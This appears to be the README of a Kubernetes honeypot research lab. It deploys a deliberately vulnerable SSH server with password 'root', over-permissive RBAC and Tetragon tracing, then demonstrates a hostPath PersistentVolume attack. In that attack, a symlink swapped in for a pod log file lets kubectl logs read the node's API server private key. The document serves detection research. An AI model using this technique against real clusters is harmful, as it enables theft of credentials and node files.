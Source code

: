 # Honeypots Research

## Simple Attack Tree

As a simple example attack tree, we will look at the attack path made possible if an attacker can create hostPath Persistent Volumes on a cluster, inspred by [this blog post](https://jackleadford.github.io/containers/2020/03/06/pvpost.html).

```mermaid
flowchart TD
    A[Access sensitive \ninfo on node] --> |*kubectl logs BAD_POD*| B{Escape from \ncontainer \non node}
    A --> more1[. . . . . . . .]
    B -->|*container can run as root*| C[Dangerous Security Context]
    B --> |*writeable hostPath to /var/log*| D{Pod created \nwith PVC referencing \nhostPath PV}
    D --> E[Credentials] 
    D --> |*pod can create Pods/PVs/PVCs*| F[Misconfigured RBAC]
    E --> |*leaked creds used*| G[Initial access to \npod in cluster]
    E --> more2[. . . . . . . .]
```

## Known Issues
tetragon traces are not all created equal, some need improvments, especially the logs from kafka/fluentd/cert-man etc should be ignored
fluentd keeps on crashing, needs investigation
all logs currently go to topic "cr1" on kafka, need filter in fluentd
need schema
wait-conditions in make-file are flaky at best, need fine-tuning
currently vcluster is switched off, kyverno as well -> needs to be retested with those turned on


## Demo

Bring all the infra up (known issue: wait conditions):
```bash
make all-up
```
Put the traces on
```bash
make traces
```

Go to second shell for STDOUT observations (dont kill this shell)
```bash
make secondshell-on
```
Back to first shell, run
```bash
make attack
```


Spin up a kind cluster:

```bash
make cluster-up
```

Install [Tetragon](https://tetragon.io/):

```bash
make tetragon-install
```

Set up a [vcluster](https://www.vcluster.com/) within our kind cluster where our honeypot workloads will run:

```bash
make vcluster-deploy
```

Install [Kyverno](https://kyverno.io/) and enforce baseline Pod Security Standards across the cluster:

```bash
make kyverno-install
```

Install an intentionally vulnerable SSH server:

```bash
make ssh-install
```

Deploy a local storage class for our vcluster:

```bash
make sc-deploy
```

Set up a potentially dangerous Cluster Role and Cluster Role Binding enabling a default Service Account to create pods, persistent volumes, and persistent volume claims:

```bash
make rbac
```

Set up port forwarding to our SSH server:

```bash
make port-forward
```

Switch to a new terminal tab and copy some scripts over to the SSH server. The password is `root`. This represents initial attacker access to our honeypot cluster, via credential compromise:

```bash
make copy-scripts
```

SSH into the server using the same password:

```bash
make ssh-connect
```

From within the SSH session, run a malicious script which will create a HostPath type PersistentVolume which will allow a pod to access `/var/log` on the host (inspred by [this blog post](https://jackleadford.github.io/containers/2020/03/06/pvpost.html)), using the [Python Kubernetes client library](https://github.com/kubernetes-client/python):

```bash
source priv-create.sh
```

Switch to a new terminal tab and observe the dangerous pod running:

```bash
kubectl get po
```

Let's show that an attacker could use this pod to read arbitrary information from a node in the cluster (in this case we will read the K8s API server's private key). Exec into the pod:

```bash
make exec
```

Run the following from within the pod to write a symlink to its `0.log` file, which is followed by the Node upon `kubectl logs PODNAME` in order to read any file from the Node. `cd` into the directory `/hostlogs/pods/vcluster_bad-pv-pod_......../bad-pv-pod/` and run the following:

```bash
rm 0.log && ln -s /etc/kubernetes/pki/apiserver.key 0.log
```

If the service account compromised by our attacker could inspect the logs of the containers it can create, the attacker could now run:

```bash
k logs bad-pv-pod --tail=-1
```

Note that we can see the first line of the private key.

## Teardown

```bash
make cluster-down
```

## Note for Mac Users
Certain Docker Desktop versions will lead to the following error 
```
level=fatal msg="Load overlay network failed" error="program cil_from_overlay: replacing clsact qdisc for interface cilium_vxlan: operation not supported" interface=cilium_vxlan subsys=datapath-loader
```
downgrading or using an alternative (Orbstack) will solve this . 
